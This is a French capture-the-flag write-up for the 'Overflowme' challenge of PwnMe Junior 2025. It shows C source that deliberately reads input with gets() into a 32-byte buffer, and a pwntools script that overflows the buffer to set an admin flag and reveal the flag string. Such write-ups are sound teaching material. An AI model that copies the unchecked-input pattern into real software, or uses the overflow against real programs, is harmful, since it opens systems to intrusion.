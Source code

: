 ```yaml
---
title: "PwnMe Junior 2025 - Overflowme"
date: 2024-04-14
tags: ["pwnme-junior", "pwn", "buffer-overflow", "exploitation"]
---
```


# Write-up: Overflowme - PwnMe Junior 2025

## Description

Overflowme est un challenge de type "buffer overflow" classique, parfait pour s'initier aux techniques d'exploitation basiques.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui demande un nom d'utilisateur, puis vérifie si l'utilisateur est "admin". Si ce n'est pas le cas, il affiche un message d'erreur.

Voici un extrait du code source :

```c
#include <stdio.h>
#include <string.h>

int main() {
    char username[32];
    int is_admin = 0;
    
    printf("Username: ");
    gets(username);  // Vulnérabilité: utilisation de gets()
    
    if (is_admin) {
        printf("Welcome, admin! Here's your flag: PwnMe{buffer_0verflow_1s_e4sy}\n");
    } else {
        printf("Hello, %s! You are not admin.\n", username);
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité se situe dans l'utilisation de la fonction `gets()`, qui lit l'entrée utilisateur sans vérifier la taille du buffer. Cela permet d'écrire au-delà des 32 caractères alloués à `username` et donc de modifier la valeur de `is_admin`.

## Exploitation

Pour exploiter cette vulnérabilité, il suffit d'envoyer 32 caractères pour remplir le buffer `username`, puis 4 ou 8 octets supplémentaires (selon l'architecture) pour écraser la valeur de `is_admin` avec une valeur non nulle.

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1337)

# Construction du payload: 32 'A' pour remplir le buffer + "\x01\x00\x00\x00" pour écraser is_admin
payload = b"A" * 32 + p32(1)

# Envoi du payload
conn.sendlineafter(b"Username: ", payload)

# Réception et affichage du flag
print(conn.recvall().decode())
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{buffer_0verflow_1s_e4sy}` 